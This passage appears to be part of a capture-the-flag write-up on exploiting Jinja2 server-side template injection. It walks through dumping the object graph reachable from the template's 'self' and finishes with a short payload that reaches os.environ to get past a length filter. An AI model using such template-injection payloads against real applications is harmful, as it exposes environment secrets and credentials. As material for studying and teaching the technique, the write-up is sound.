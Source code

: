 ```python
    elif hasattr(obj, '__call__') and hasattr(obj, '__globals__'): # function
        res  = ' ' + str(obj) + '\n'
        res += ' '*indent + '__globals__:'+ dfs_dump_full(getattr(obj, '__globals__'), visited, indent, prefix+['__globals__'])
    elif hasattr(obj, '__dict__'):
        return dfs_dump_full(obj.__dict__, visited, indent, prefix)
    else:
        res  = ' '*indent
        res += str(obj)
    return res

s = Template("My name is {{ func(self) }}").render(module=json, func=dfs_dump_full)
prnt(s)
```

The code looks ugly, but we can run it and save the above output in jinja2.TemplateReference.dump file. If we [open the dump file](jinja2.TemplateReference.dump), it is in a nice format though.

Searching for the regex `\.environ:` we can see that we can find it in `os` or `_os` modules. So let's search for the regex `\.((os)|(_os)):` and try to find the the match with the shortest prefix

`_TemplateReference__context.parent.lipsum.__globals__.os:`

This is also the shortest path towards `_TemplateReference__context` and `lipsum` (or so I wrongly thought for `lipsum` - my script is not complete). So, does the following payload suffice?

`self._TemplateReference__context.parent.lipsum.__globals__.os.environ`

No. It is too long - 69 characters. So it is still not short enough to pass the filter. Okay how about another approach. With our dump, we have a kind of a good idea about the internal layout of `self`. But what class does `self` represent?

```python
In [70]: Template("My name is {{ self.__class__ }} ").render()
Out[70]: "My name is <class 'jinja2.runtime.TemplateReference'> "
```

Let's also check the source code of the [TemplateReference class](https://tedboy.github.io/jinja2/_modules/jinja2/runtime.html#TemplateReference).

```python
import sys
# ... #
class TemplateReference(object):
    """The `self` in templates."""

    def __init__(self, context):
        self.__context = context
    # ... #
```

As we can see, it is importing the `sys` module. But from our dump, we can see that we can reach `os` from `sys`: `sys.modules.os`. So, `sys` is in the global variables of the `__init__` function. So, putting all things together, our final payload is:

`self.__init__.__globals__.sys.modules.os.environ`
